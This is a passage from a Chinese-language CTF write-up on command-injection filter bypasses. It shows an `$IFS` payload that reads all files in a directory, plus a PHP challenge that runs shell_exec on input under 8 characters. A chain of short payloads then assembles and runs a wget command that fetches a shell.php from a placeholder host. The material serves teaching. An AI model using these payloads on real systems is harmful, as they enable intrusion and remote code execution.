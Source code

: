 [![](assets/1708998334-01c4a0e5208dff1ce061c73ca921ebdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143850-5ebaaff8-d2df-1.png)

**方式三：直接读取整个目录下所有文件**

其实这里还有一种思路就是既然这里对 flag 进行了全匹配且当前目录下仅两个文件，那么我们是否可以直接读取当前目录下的所有文件内容而不用去特定指定 flag.php 文件名呢，答案是可以的，具体实现如下：

```plain
/?ip=;cat$IFS`ls`
```

[![](assets/1708998334-6bf8d727a124cdba9e7df19661462b78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143919-702d655a-d2df-1.png)

#### 七字长度绕过

本题目是由 phith0n 出的一个关于字符长度限制的试题，题目源代码如下所示：

```plain
<?php
    if(strlen($_GET[1])<8){
        echo shell_exec($_GET[1]);
    }
?>
```

从上面的源代码可以看到这里对获取到的参数进行了长度检查，要求长度小于 8，在这里我们可以使用上面提到的标准输入进行解题，具体如下：

```plain
?1=>hp
?1=>ell.p\\
?1=>\ sh\\
?1=>\ -O\\
?1=>xxx\\
?1=>xxx.\\
?1=>xxx.\\
?1=>\ xx\\
?1=>wget\\
?1=ls -t>a
?1=sh a
```
